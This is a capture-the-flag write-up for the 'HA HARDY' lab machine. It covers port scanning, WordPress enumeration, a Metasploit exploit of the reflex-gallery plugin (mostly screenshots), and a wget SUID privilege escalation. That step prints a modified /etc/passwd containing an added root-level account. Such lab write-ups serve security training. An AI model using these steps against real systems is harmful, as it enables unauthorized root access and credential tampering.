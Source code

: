 ```yaml
---
title: HA HARDY
categories: [Proving Grounds Play]
tags: [Metasploit, Public Exploit, SUIDs, wget, Wordpress, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  HA HARDY Machine 🖥️
---
```



## Lets Check the IP address of the victim machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled.png)

```
{: .nolineno}
IP : 10.0.2.36
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 21:19 IST
Nmap scan report for 10.0.2.36
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:D4:FE:FC (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%201.png)

got a directory —> `/wordpress/` 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%202.png)

with wpscan tool I got 2 users ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%203.png)

I also found a vulnerability through wpscan in `reflex-gallery plugins` of wordpress so lets exploit it now >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%204.png)

Now with metasploit I exploit this >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%206.png)

Now lets run this ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%207.png)

Now lets look into `wp-config.php` file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%209.png)

Now let’s see the SUID’s files ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2010.png)

So I think with this I will copy the /etc/passwd file , access with wget and modify with new user addon.

Now let’s access the passwd file in attackers machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2011.png)

Now lets add a user named as `shiv` and `password`as password in passwd file. 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2012.png)

Lets see the passwd file ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```
{: .nolineno}

Now let’s transfer this file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2014.png)

```bash
root@ubuntu:~# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____     	|	
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\   	|
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |  	|	
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\ 	|
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u 	|
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_    	|
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)   	|
									|
									|
!! Congrats you have finished this task !!				|
									|
Contact us here:							|
									|
Hacking Articles : https://twitter.com/rajchandel/			|
									|
									|
+-+-+-+-+-+ +-+-+-+-+-+-+-+						|
 |E|n|j|o|y| |H|A|C|K|I|N|G|						|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						|
________________________________________________________________________|

                                                

root@ubuntu:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }